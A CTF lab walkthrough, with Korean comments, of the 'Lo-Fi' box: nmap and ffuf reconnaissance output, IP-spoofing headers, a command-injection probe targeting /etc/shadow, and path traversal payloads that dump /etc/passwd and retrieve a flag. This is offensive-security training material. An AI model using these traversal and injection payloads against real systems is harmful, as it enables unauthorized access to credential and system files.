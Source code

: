Nmap 7.95 scan initiated Sun Jun 8 08:04:11 2025 as: /usr/lib/nmap/nmap -sC -sV -O -oN scan.txt -p- 10.10.126.200
Nmap scan report for 10.10.126.200
Host is up (0.21s latency).
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 9d:3d:d7:e4:5f:88:2a:1a:7d:d3:be:ae:ed:ab:ce:89 (RSA)
| 256 ca:99:57:b7:88:38:f7:96:70:48:73:fa:c2:e0:c6:28 (ECDSA)
|\_ 256 7b:6f:41:2a:00:18:b6:a4:12:ce:e1:bd:f2:ce:67:45 (ED25519)
80/tcp open http Apache httpd 2.2.22 ((Ubuntu))
|\_http-title: Lo-Fi Music
|\_http-server-header: Apache/2.2.22 (Ubuntu)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

# Nmap done at Sun Jun 8 08:30:16 2025 -- 1 IP address (1 host up) scanned in 1565.76 seconds

# ffuf

# -fs Response size 필터입니다. 응답 크기가 정확히 178바이트인 경우 결과에서 제외하겠다는 뜻입니다.

# -H 옵션은 HTTP 헤더 전체를 넣어야 하ㅂ니다

ffuf -u http://10.10.126.200 -H "Host: FUZZ.lofi" -w /usr/share/seclists/Discovery/DNS/namelist.txt -fs 4162 -t 50

# DNS 경로 검색 방식

ffuf -u http://10.10.126.200/FUZZ -w wordlist.txt

| 목적                          | 헤더 필요 여부 | 예시                              |
| ----------------------------- | -------------- | --------------------------------- |
| 🧠 **서브도메인 (Host 기반)** | ✅ 필요        | `-H "Host: FUZZ.lofi"`            |
| 📁 **경로, 파일 fuzzing**     | ❌ 불필요      | `-u http://target/FUZZ`           |
| 🧭 **DNS 직접 질의**          | ❌ 불필요      | `dig`, `dnsrecon`, `dnsenum` 사용 |

# 중복된 페이지가 나오는 것을 방지

-fs 4162

ffuf -u http://10.10.126.200/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -o ffuf.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev

---

:: Method : GET
:: URL : http://10.10.126.200/FUZZ
:: Wordlist : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500

---

.html [Status: 403, Size: 286, Words: 21, Lines: 11, Duration: 1285ms]
.htm [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 5477ms]
. [Status: 200, Size: 4162, Words: 1375, Lines: 128, Duration: 269ms]
.htaccess [Status: 403, Size: 290, Words: 21, Lines: 11, Duration: 403ms]
.htc [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 291ms]
.html*var_DE [Status: 403, Size: 293, Words: 21, Lines: 11, Duration: 303ms]
server-status [Status: 403, Size: 294, Words: 21, Lines: 11, Duration: 338ms]
.htpasswd [Status: 403, Size: 290, Words: 21, Lines: 11, Duration: 309ms]
.html. [Status: 403, Size: 287, Words: 21, Lines: 11, Duration: 312ms]
.html.html [Status: 403, Size: 291, Words: 21, Lines: 11, Duration: 380ms]
.htpasswds [Status: 403, Size: 291, Words: 21, Lines: 11, Duration: 306ms]
.htm. [Status: 403, Size: 286, Words: 21, Lines: 11, Duration: 406ms]
.htmll [Status: 403, Size: 287, Words: 21, Lines: 11, Duration: 511ms]
.html.old [Status: 403, Size: 290, Words: 21, Lines: 11, Duration: 333ms]
.html.bak [Status: 403, Size: 290, Words: 21, Lines: 11, Duration: 306ms]
.ht [Status: 403, Size: 284, Words: 21, Lines: 11, Duration: 307ms]
.htm.htm [Status: 403, Size: 289, Words: 21, Lines: 11, Duration: 301ms]
.htgroup [Status: 403, Size: 289, Words: 21, Lines: 11, Duration: 303ms]
.html1 [Status: 403, Size: 287, Words: 21, Lines: 11, Duration: 304ms]
.hta [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 302ms]
.html.LCK [Status: 403, Size: 290, Words: 21, Lines: 11, Duration: 281ms]
.html.printable [Status: 403, Size: 296, Words: 21, Lines: 11, Duration: 288ms]
.htm.LCK [Status: 403, Size: 289, Words: 21, Lines: 11, Duration: 304ms]
.htx [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 306ms]
.html.php [Status: 403, Size: 290, Words: 21, Lines: 11, Duration: 306ms]
.htaccess.bak [Status: 403, Size: 294, Words: 21, Lines: 11, Duration: 303ms]
.htmls [Status: 403, Size: 287, Words: 21, Lines: 11, Duration: 306ms]
.html- [Status: 403, Size: 287, Words: 21, Lines: 11, Duration: 306ms]
.htm2 [Status: 403, Size: 286, Words: 21, Lines: 11, Duration: 304ms]
.htlm [Status: 403, Size: 286, Words: 21, Lines: 11, Duration: 306ms]
.htuser [Status: 403, Size: 288, Words: 21, Lines: 11, Duration: 304ms]
.html-1 [Status: 403, Size: 288, Words: 21, Lines: 11, Duration: 300ms]
.hts [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 300ms]
.html.sav [Status: 403, Size: 290, Words: 21, Lines: 11, Duration: 300ms]
.htacess [Status: 403, Size: 289, Words: 21, Lines: 11, Duration: 300ms]
.html_files [Status: 403, Size: 292, Words: 21, Lines: 11, Duration: 299ms]
.htm.old [Status: 403, Size: 289, Words: 21, Lines: 11, Duration: 300ms]
.htmlprint [Status: 403, Size: 291, Words: 21, Lines: 11, Duration: 300ms]
.html.orig [Status: 403, Size: 291, Words: 21, Lines: 11, Duration: 300ms]
.htm.d [Status: 403, Size: 287, Words: 21, Lines: 11, Duration: 300ms]
.html* [Status: 403, Size: 287, Words: 21, Lines: 11, Duration: 298ms]
.htm.html [Status: 403, Size: 290, Words: 21, Lines: 11, Duration: 299ms]
.htmlpar [Status: 403, Size: 289, Words: 21, Lines: 11, Duration: 300ms]
:: Progress: [63088/63088] :: Job [1/1] :: 124 req/sec :: Duration: [0:08:09] :: Errors: 0 ::

# ip 우회

curl -i http://10.10.126.200/.htaccess \
 -H "X-Forwarded-For: 127.0.0.1" \
 -H "X-Real-IP: 127.0.0.1" \
 -H "Client-IP: 127.0.0.1" \
 -H "X-Client-IP: 127.0.0.1" \
 -H "X-Remote-IP: 127.0.0.1" \
 -H "X-Remote-Addr: 127.0.0.1"

# install SEclists

git clone https://github.com/danielmiessler/SecLists.git

# /etc/hosts

echo "10.10.126.200 lo-fi.thm" >> /etc/hosts
echo "10.10.126.200 lo-fi.thm" >> /etc/hosts

cat /etc/hosts

# file traversal

ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://lo-fi.thm/?page=FUZZ" -fl 124 -mc 200

# http

http http://lo-fi.thm/?page=%0a/bin/cat%20/etc/shadow

```html
<div class="alert alert-danger" role="alert"> Sorry, <code>
/bin/cat /etc/shadow</code> does not exist. </div> </div>
</div>
```

http http://lo-fi.thm/?page=
http http://lo-fi.thm/?page=/../../etc/passwd
http http://lo-fi.thm/?page=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh

# 틀림 -> 절대 경로를 허용하는 경우는 극히 드물다

http http://lo-fi.thm/?page=/../../../../../../../flag.txt

# 맞음 -> 상위 폴더로 이동해야 하므로 일반적으로 .. 로 시작

http http://lo-fi.thm/?page=../../../flag.txt

